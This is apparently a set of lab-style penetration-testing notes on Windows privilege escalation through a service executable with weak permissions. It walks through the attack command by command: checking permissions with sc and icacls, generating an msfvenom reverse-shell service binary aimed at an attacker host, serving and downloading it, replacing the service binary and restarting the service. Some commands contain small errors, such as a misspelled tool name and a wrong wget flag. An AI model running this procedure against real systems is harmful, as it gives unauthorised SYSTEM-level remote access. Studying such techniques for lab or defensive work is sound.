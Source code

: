 Insecure Permissions on Service Executable
**********************************************

Query the service

.. code-block:: console

        sc qc WindowsScheduler
                [SC] QueryServiceConfig SUCCESS
                SERVICE_NAME: WindowsScheduler
                TYPE               : 10  WIN32_OWN_PROCESS
                START_TYPE         : 2   AUTO_START
                ERROR_CONTROL      : 0   IGNORE
                BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe                      LOAD_ORDER_GROUP   :
                TAG                : 0
                DISPLAY_NAME       : System Scheduler Service
                DEPENDENCIES       :
                SERVICE_START_NAME : .\svcusr1

Show the permissons. In this case M stands for modify.

.. code-block:: console

        icacls C:\PROGRA~2\SYSTEM~1\WService.exe
                C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                BUILTIN\Users:(I)(RX)
                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Create a payload with msfvemon

.. code-block:: console

        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.33.228 LPORT=4444 -f exe-service -o rev-svc.exe

Start a python3 web server

.. code-block:: console

        python3 –m http.server 80

Retrieve file and put executable on service

.. code-block:: console

        wget http://10.6.33.228/rev-svc.exe -o rev-svc.exe
        move C:\PROGRA~2\SYSTEM~1\WService.exe C:\PROGRA~2\SYSTEM~1\WSERVICE.exe.bkp
        move .\rev-svc.exe C:\PROGRA~2\SYSTEM~1\WService.exe

Grant permissons on service

.. code-block:: console

        cacls .\WService.exe /grant Everyone:F
                processed file: .\WService.exe
                Successfully processed 1 files;
        sc.exe stop windowsscheduler
        sc.exe start windowsscheduler

`Windows file permisson icacls <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls>`_
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

Simple
^^^^^^^^

* Full permissons = F
* modify = M
* read and execute = RX
* Read-only = R
* Write-only = W

Advanced permissons
^^^^^^^^^^^^^^^^^^^^^^^^

* D - Delete
* RC - Read control (read permissions)
* WDAC - Write DAC (change permissions)
* WO - Write owner (take ownership)
* S - Synchronize
* AS - Access system security
* MA - Maximum allowed
* GR - Generic read
* GW - Generic write
* GE - Generic execute
* GA - Generic all
* RD - Read data/list directory
* WD - Write data/add file
* AD - Append data/add subdirectory
* REA - Read extended attributes
* WEA - Write extended attributes
* X - Execute/traverse
* DC - Delete child
* RA - Read attributes
* WA - Write attributes


